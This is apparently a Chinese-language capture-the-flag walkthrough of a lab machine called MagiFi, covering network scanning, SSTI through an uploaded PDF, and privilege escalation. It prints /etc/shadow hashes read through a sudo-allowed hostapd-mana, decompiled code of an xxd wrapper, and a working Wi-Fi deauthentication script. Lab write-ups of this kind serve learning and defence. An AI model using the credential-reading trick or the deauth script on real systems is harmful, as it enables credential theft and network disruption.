## 网段扫描
```
root@LingMj:~# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.31	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.92	62:2f:e8:e4:77:5d	(Unknown: locally administered)
192.168.137.253	a0:78:17:62:e5:0a	Apple, Inc.

8 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.159 seconds (118.57 hosts/sec). 4 responded
```

## 端口扫描

```
root@LingMj:~# nmap -p- -sV -sC 192.168.137.31
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-01 04:14 EST
Nmap scan report for hogwarts.htb (192.168.137.31)
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:c6:d6:24:1e:5b:9e:66:25:0a:ba:0a:08:0b:18:40 (RSA)
|   256 9c:c3:1d:ea:22:04:93:b7:81:dd:f2:96:5d:f0:1f:9b (ECDSA)
|_  256 55:41:15:90:ff:1d:53:88:e7:65:91:4f:fd:cf:49:85 (ED25519)
80/tcp open  http    Werkzeug httpd 3.0.4 (Python 3.8.10)
|_http-title: Hogwarts School
|_http-server-header: Werkzeug/3.0.4 Python/3.8.10
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.52 seconds
```

## 获取webshell

  

>存在域名
>

  

  

>upload上传内容为pdf，有一个模版
>

  

  


>由于直接使用wps会出现字体报错，这里使用pages来进行pdf导出
>

  

  

  


>可以看到pdf完成上传并且stti注入成功，推荐一个网站：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md
>

  

>这个部分我研究了半小时直接pages进行修改poc是无法注入成功的需要在本地进行相应的转换操作才能注入成功，这里我不演示了，因为不是所有人都有这个问题
>

  

>没有nc 直接注入没成功可以使用curl的形式
>

  
  
  
  

>接下来就是稳定shell和提权操作了
>


## 提权

```
harry_potter@MagiFi:~/Hogwarts_web$ sudo -l
Matching Defaults entries for harry_potter on MagiFi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry_potter may run the following commands on MagiFi:
    (root) NOPASSWD: /usr/sbin/aireplay-ng, /usr/sbin/airmon-ng, /usr/sbin/airodump-ng, /usr/bin/airdecap-ng, /usr/bin/hostapd-mana
harry_potter@MagiFi:~/Hogwarts_web$ 


```

>这个靶机之前是有bug的但是我今天测了一下午bug不能直接使用，现在我演示一下bug的方案，因为不成功所以放出来没啥关系
>

```
harry_potter@MagiFi:~/Hogwarts_web$ sudo /usr/bin/hostapd-mana /root/root.txt
Configuration file: /root/root.txt
Could not open configuration file '/root/root.txt' for reading.
Failed to set up interface with /root/root.txt
Failed to initialize interface
harry_potter@MagiFi:~/Hogwarts_web$ sudo /usr/bin/hostapd-mana /etc/shadow
Configuration file: /etc/shadow
Line 1: invalid line 'root:$6$KflwZsO6c4DW8laq$AVs2hfT9i1calD.V6aKIr5Wej26J1tjgSz5R674SSJDuWvX1RWqHYw79Q.OIqeIlhl0ksI7UJ7d0YHJp4F.J81:19993:0:99999:7:::'
Line 2: invalid line 'daemon:*:19430:0:99999:7:::'
Line 3: invalid line 'bin:*:19430:0:99999:7:::'
Line 4: invalid line 'sys:*:19430:0:99999:7:::'
Line 5: invalid line 'sync:*:19430:0:99999:7:::'
Line 6: invalid line 'games:*:19430:0:99999:7:::'
Line 7: invalid line 'man:*:19430:0:99999:7:::'
Line 8: invalid line 'lp:*:19430:0:99999:7:::'
Line 9: invalid line 'mail:*:19430:0:99999:7:::'
Line 10: invalid line 'news:*:19430:0:99999:7:::'
Line 11: invalid line 'uucp:*:19430:0:99999:7:::'
Line 12: invalid line 'proxy:*:19430:0:99999:7:::'
Line 13: invalid line 'www-data:*:19430:0:99999:7:::'
Line 14: invalid line 'backup:*:19430:0:99999:7:::'
Line 15: invalid line 'list:*:19430:0:99999:7:::'
Line 16: invalid line 'irc:*:19430:0:99999:7:::'
Line 17: invalid line 'gnats:*:19430:0:99999:7:::'
Line 18: invalid line 'nobody:*:19430:0:99999:7:::'
Line 19: invalid line 'systemd-network:*:19430:0:99999:7:::'
Line 20: invalid line 'systemd-resolve:*:19430:0:99999:7:::'
Line 21: invalid line 'systemd-timesync:*:19430:0:99999:7:::'
Line 22: invalid line 'messagebus:*:19430:0:99999:7:::'
Line 23: invalid line 'syslog:*:19430:0:99999:7:::'
Line 24: invalid line '_apt:*:19430:0:99999:7:::'
Line 25: invalid line 'tss:*:19430:0:99999:7:::'
Line 26: invalid line 'uuidd:*:19430:0:99999:7:::'
Line 27: invalid line 'tcpdump:*:19430:0:99999:7:::'
Line 28: invalid line 'landscape:*:19430:0:99999:7:::'
Line 29: invalid line 'pollinate:*:19430:0:99999:7:::'
Line 30: invalid line 'fwupd-refresh:*:19430:0:99999:7:::'
Line 31: invalid line 'usbmux:*:19991:0:99999:7:::'
Line 32: invalid line 'sshd:*:19991:0:99999:7:::'
Line 33: invalid line 'systemd-coredump:!!:19991::::::'
Line 34: invalid line 'lxd:!:19991::::::'
Line 35: invalid line 'freerad:*:19991:0:99999:7:::'
Line 36: invalid line 'rubeus.hagrid:!:19991:0:99999:7:::'
Line 37: invalid line 'albus.dumbledore:!:19991:0:99999:7:::'
Line 38: invalid line 'minerva.mcgonagall:!:19991:0:99999:7:::'
Line 39: invalid line 'tom.riddle:$6$l2y72YLXF2tIL.rC$d3SQEKFlGu9wi/omLDmHJYGP3uRSD9t2hnRTqveIMOHG8pa80Ku81d3kbfXZy0bpC2PRp9xLqE7IQi3EQ4bf1/:19991:0:99999:7:::'
Line 40: invalid line 'harry_potter:$6$Cu5tGqfYYF/NWp6f$bLb5lfce4bMH10OYBG27nYBoMTMciI9NOxIR2XGliWIhzHE2iU0kS1ZKuSNPnYRS/y12jnt4jmr8pMfDsRicK1:19993:0:99999:7:::'
40 errors found in configuration file '/etc/shadow'
Failed to set up interface with /etc/shadow
Failed to initialize interface
harry_potter@MagiFi:~/Hogwarts_web$ 
```

>这里能看到不能读取/root/root.txt,但是能读取shadow，我尝试爆破密码没见成功
>

  

>我想说bug还有但是root好像加权限了，接下来演示第二个
>

  

>这里发现无法直接使用这个xxd的东西，我看了一下原码它进行了uid的识别，它给了tom的特定用户
>

  

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __uid_t v3; // eax
  int i; // [rsp+10h] [rbp-20h]
  int fd; // [rsp+14h] [rbp-1Ch]
  char *s1; // [rsp+18h] [rbp-18h]
  struct passwd *v8; // [rsp+28h] [rbp-8h]

  s1 = 0LL;
  v3 = getuid();
  v8 = getpwuid(v3);
  if ( v8 && !strcmp(v8->pw_name, "tom.riddle") )
  {
    if ( argc <= 1 || !strcmp(argv[1], "-h") || !strcmp(argv[1], "--help") )
    {
      show_help();
      return 1;
    }
    else
    {
      for ( i = 1; i < argc; ++i )
      {
        if ( !strcmp(argv[i], "-O") && argc > i + 1 )
        {
          s1 = (char *)argv[i + 1];
          argv[i] = 0LL;
          argv[i + 1] = 0LL;
          break;
        }
        if ( !strncmp(argv[i], "/root/", 6uLL) || !strncmp(argv[i], "/etc/", 5uLL) )
        {
          fwrite("I hate dealing with Muggle gadgets!\n", 1uLL, 0x24uLL, stderr);
          return 1;
        }
      }
      if ( s1 )
      {
        if ( !strcmp(s1, ".horcrux.png") )
        {
          fd = open(s1, 577, 384LL);
          if ( fd >= 0 )
          {
            if ( dup2(fd, 1) >= 0 )
            {
              close(fd);
              execvp("/usr/bin/xxd", (char *const *)argv);
              perror("Error executing xxd");
            }
            else
            {
              perror("Error redirecting output to file");
              close(fd);
            }
            return 1;
          }
          else
          {
            perror("Error opening output file");
            return 1;
          }
        }
        else
        {
          fwrite("Not every wizards can use or destroy a Horcrux!\n", 1uLL, 0x30uLL, stderr);
          return 1;
        }
      }
      else
      {
        fwrite("Error: Output file can't be empty, use the -O option.\n", 1uLL, 0x36uLL, stderr);
        show_help();
        return 1;
      }
    }
  }
  else
  {
    fwrite("You are not worthy to handle the Horcrux!\n", 1uLL, 0x2AuLL, stderr);
    return 1;
  }
}
```

>当然我想过了uid的绕过但是我感觉应该是成功不了的，到这里目前看的bug貌似修复了很多，但是感觉还是存在，但是我对于wifi这个玩意真不熟测试uid之后就搁置了
>

>找了一下找到2个常规解到wp，其中一个是作者的话不多说直接照搬把它打完，原理的话就是bug部分加一小段就是如何获取tom这个用户，剩下都一样
>

  

>开了很多网络服务首先我们可以先把其他服务给关了
>

 
  

  

  
  

  


```
tshark -r scan-01.cap -Y "ssl.handshake.type == 11" -V | grep -ow -E '(countryName=\\w+)|(stateOrProvinceName=.+)|(localityName=.+)|(organizationName=.+)|(emailAddress=.+)|(commonName=.+)' | cut -d ',' -f 1 | sed 's/)//' | sort -u
```

  
  

```
harry_potter@MagiFi:/tmp/attacks$ nano deauth.sh
harry_potter@MagiFi:/tmp/attacks$ cat deauth.sh 
#!/bin/bash

wlan1="wlan3"
wlan2="wlan4"
wlan3="wlan5"

bssid1Channel="44"
bssid2Channel="36"
bssid3Channel="40"

bssid1="F0:9F:C2:71:22:15"
bssid2="F0:9F:C2:71:22:16"
bssid3="F0:9F:C2:71:22:17"

check_monitor_mode() {
  interface=$1
  channel=$2
  mode=$(iwconfig ${interface}mon 2>/dev/null | grep "Mode:Monitor")
  if [ -z "$mode" ]; then
    sudo airmon-ng start $interface $channel
  fi
}

run_aireplay() {
  interface=$1
  bssid=$2
  sudo aireplay-ng -0 30 -a $bssid ${interface}mon
}

check_monitor_mode $wlan1 $bssid1Channel
check_monitor_mode $wlan2 $bssid2Channel
check_monitor_mode $wlan3 $bssid3Channel

echo "Running deauthentication attack..."

run_aireplay $wlan1 $bssid1 &
run_aireplay $wlan2 $bssid2 &
run_aireplay $wlan3 $bssid3 &

wait
```


>完了运行脚步有hash值出来但是我没有无语，不过呢我看明白了，整得我是乱七八糟，不管了既然就单纯爆破的情况下我直接密码爆破好了找啥hash值
>

  

>当然我知道密码是什么但是我想爆破完整需要多少分钟
>

  

>太多了自动kill了，真离谱，算了我跳过这一步，想了解的还是去看DING Tom的视频和作者的wp吧
>

  

>之前反编译过程序当是这个用户就可以控制xxd了
>

  

>还有个定时任务在弄这个东西
>

  

  

>好像做了目录特殊问题
>

  

  

>这是标准解
>

  

>这里我们继续看一下反编译
>

  

>笑死还是能读换个名字罢了我以为把这个bug修了,不管也算预防直接获取wp
>

  

>反编译完还挺简单的就是一个命令执行但是他得是elf才能执行，原来定时任务的是一个png，所以需要换头执行，ok结束了，没有完成的地方再搁置一段时间因为我还没找到解决方案
>


>userflag:hogwarts{ea4bc74f09fb69771165e57b1b215de9}
>
>rootflag:hogwarts{5ed0818c0181fe97f744d7b1b51dd9c7}
>
